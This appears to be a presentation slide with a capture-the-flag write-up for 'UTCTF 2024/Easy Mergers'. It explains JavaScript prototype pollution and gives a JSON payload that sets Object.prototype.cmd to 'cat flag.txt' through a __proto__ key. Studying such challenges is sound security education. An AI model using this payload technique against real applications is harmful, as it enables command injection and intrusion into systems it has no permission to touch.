

# Polluting prototypes: UTCTF 2024/Easy Mergers
Inspecting the code would indicate that we need to pollute Object.prototype such that its cmd property has the value "cat flag.txt"
We want to run some code that is equivalent to one of the following lines of code
an_obj.__proto__.cmd = "cat flag.txt"
an_obj.constructor.prototype.cmd = "cat flag.txt"
There are three potentially vulnerable lines of code
orig[data.attributes[k]][key] = data.values[k][key]
orig[data.attributes[k]] = orig[data.attributes[k]].concat(data.values[k])
orig[data.attributes[k]] = data.values[k]
orig is always a non-prototype object; otherwise, we can control everything else
As we need at least two property access to set a property on the prototype given that orig is a non-prototype object, only the first line of code is vulnerable
The resulting JSON payload is:
{"attributes": ["__proto__"], "values": [{"cmd": "cat flag.txt"}]}
You can check that the payload will cause that line of code to run, and is equivalent to the following line of code when k is 0:
orig["__proto__"]["cmd"] = "cat flag.txt"
63